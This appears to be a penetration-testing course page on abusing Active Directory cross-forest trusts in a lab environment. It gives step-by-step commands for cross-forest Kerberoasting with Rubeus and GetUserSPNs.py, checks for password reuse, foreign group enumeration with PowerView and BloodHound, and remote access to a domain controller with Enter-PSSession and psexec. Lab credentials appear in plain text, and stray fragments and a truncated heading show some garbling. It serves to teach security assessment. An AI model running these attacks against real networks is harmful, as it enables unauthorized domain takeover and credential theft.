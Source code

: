 # Attacking Domain Trusts - Cross-Forest Trust Abuse
## Windows
### Cross-Forest Kerberoasting
Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

We can utilize PowerView to enumerate accounts in a target domain that have SPNs associated with them.

#### Enumerating Accounts for Associated SPNs Using Get-DomainUser
```
PS > Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

#### Enumerating the mssqlsvc Account
```
PS > Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

Let's perform a Kerberoasting attack across the trust using Rubeus. We run the tool as we did in the Kerberoasting section, but we include the /domain: flag and specify the target domain.

#### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag
```
PS > .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

We could then run the hash through Hashcat. If it cracks, we've now quickly expanded our access to fully control two domains by leveraging a pretty standard attack and abusing the authentication direction and setup of the bidirectional forest trust.

### Admin Password Re-Use & Group Membership
From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named adm_bob.smith in the Domain Admins group, and Domain B had a user named bsmith_admin. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only Domain Local Groups allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

We can use the PowerView function Get-DomainForeignGroupMember to enumerate groups with users that do not belong to the domain, also known as foreign group membership. Let's try this against the FREIGHTLOGISTICS.LOCAL domain with which we have an external bidirectional forest trust.

#### Using Get-DomainForeignGroupMember
```
PS > Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
PS > Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```

#### Accessing DC03 Using Enter-PSSession
```
PS > Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

From the command output above, we can see that we successfully authenticated to the Domain Controller in the FREIGHTLOGISTICS.LOCAL domain using the Administrator account from the INLANEFREIGHT.LOCAL domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.

## Linux
If this is possible in the environment we are assessing, we can perform this with GetUserSPNs.py from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the -target-domain flag in our command. Performing this against the FREIGHTLOGISTICS.LOCAL domain, we see one SPN entry for the mssqlsvc account.

### Cross-Forest Kerberoasting
#### Using GetUserSPNs.py
```
$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
transporter@4
Rerunning the command with the -request flag added gives us the TGS ticket. We could also add -outputfile <OUTPUT FILE> to output directly into a file that we could then turn around and run Hashcat against.

#### Using the -request Flag
```
$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```

### Hunting Foreign Group Membership with Bloodhound-python
As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only Domain Local Groups allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the Python implementation of BloodHound. We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our resolv.conf file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of ACADEMY-EA-DC01 as the nameserver.

```
$ cat /etc/resolv.conf 

domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

### Connect to 
```
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238
```

#### Running bloodhound-python Against INLANEFREIGHT.LOCAL
```
$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

#### Compressing the File with zip -r
```
$ zip -r ilfreight_bh.zip *.json
```

We will repeat the same process, this time filling in the details for the FREIGHTLOGISTICS.LOCAL domain.


#### Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
```
$ cat /etc/resolv.conf 

domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

#### Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL
```
$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on Users with Foreign Domain Group Membership under the Analysis tab and select the source domain as INLANEFREIGHT.LOCAL. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.